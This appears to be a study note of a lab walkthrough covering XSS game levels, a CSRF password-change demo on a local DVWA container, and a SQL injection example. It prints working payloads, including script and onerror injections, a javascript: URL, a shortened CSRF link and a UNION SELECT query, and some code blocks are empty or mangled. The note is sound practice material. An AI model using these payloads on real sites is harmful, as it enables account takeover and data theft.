


## XSS

> XSS (Cross-Site Scripting) attacks inject malicious script code into web pages. When other users browse the page, the malicious script executes in their browser, stealing user information, tampering with page content, etc.

Practice: https://xss-game.appspot.com/

This challenge gets progressively harder — techniques that worked earlier get filtered out later.


Level 1: No escaping at all

```html
<script>alert()</script>
```

Level 2: `<script></script>` tags are filtered out and won't work, but other tags can bypass.

**Solution 1:** Insert an *image tag* with an invalid URL and an `onerror` attribute that will execute a JavaScript alert.

```html

```


Level 3:

```html
Problem 1: Captures the first parameter of the route
chooseTab(unescape(self.location.hash.substr(1)) || "1");

Problem 2: Trick it by closing the src attribute with a single quote, then add an onerror attribute with an alert function like the previous level, and comment out the ".jpg" part with double slashes
html += "";


Solution 1: Use: ' onerror='alert();//


Solution 2: '/><sCript>alert();</scrIpt> — since case is not handled, script still works
<sCript>alert();</scrIpt>.jpg' />
```

Level 4:

```html


Use: ');alert();// — equivalent to terminating the function

```

Level 5: The value in confim.html comes from the path info

```html
<a href="{{ next }}">Next >></a> — this is taken from path info

Use javascript:alert() to modify the path, then click go, then next
...signup?next=javascript:alert()
```

Level 6: The displayed content is path info, so we need to modify the path

```js
The code rejects https from loading resources, so swap https for http
if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
Use: data:text/plain,alert('xss')
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

### CSRF

> CSRF (Cross-Site Request Forgery) attacks exploit a user's identity to perform unauthorized actions. The attacker tricks the user into visiting a malicious website or clicking a malicious link, then uses the user's session (e.g. cookies) on the target site to send requests that perform unauthorized actions, such as modifying personal information or transferring money.

```shell
docker pull vulnerables/web-dvwa
docker run -d --rm  --name dvwa  -it -p 80:80 vulnerables/web-dvwa  /bin/bash


localhost:80
admin;password
```



This is an example of changing a password.


Short URL

https://xiaomark.com/


Our password-change link

http://localhost:80/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#

becomes this

https://sourl.cn/MQkq9G

### SQL Injection

> SQL injection attacks insert malicious SQL code into web form inputs or URL query strings. When these inputs are processed by server-side database queries, the attacker can execute arbitrary SQL commands to obtain sensitive data, modify data, etc.



Input: 1' UNION SELECT 1,database() from information_schema.schemata#

Output:

```js
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: admin
Surname: admin
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: 1
Surname: dvwa
```
